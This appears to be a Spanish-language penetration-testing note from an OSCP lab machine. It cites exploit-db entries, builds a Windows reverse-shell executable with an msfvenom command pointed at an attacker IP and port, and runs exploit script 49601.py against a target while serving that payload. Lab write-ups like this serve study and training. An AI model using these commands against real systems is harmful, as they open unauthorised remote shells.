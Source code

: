
## DESCRIPTION


Puede que nmap no detecte bien el servicio:

![[Pasted image 20230603195356.png]]

#### Mas información
* https://www.exploit-db.com/exploits/49601
* https://www.exploit-db.com/exploits/50972


## EXPLOITATION

**!!NOTA IMPORTANTE!!** 

Cuidado que este exploit no funcioanaba:
![[Pasted image 20230603195546.png]]

Usamos el siguiente exploit;

![[Pasted image 20230603195559.png]]

Generamos una shell con msfvenom: 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=4444 -f exe -o shell2.exe   
```


Ponemos un servidor  web en ese directorio y ejecutamos el exploit:
```
python 49601.py 192.168.200.145 192.168.45.228 shell2.exe 
```


![[Pasted image 20230603195625.png]]

## MACHINES

* Hack The Box: 
* OSCP: OSCPA

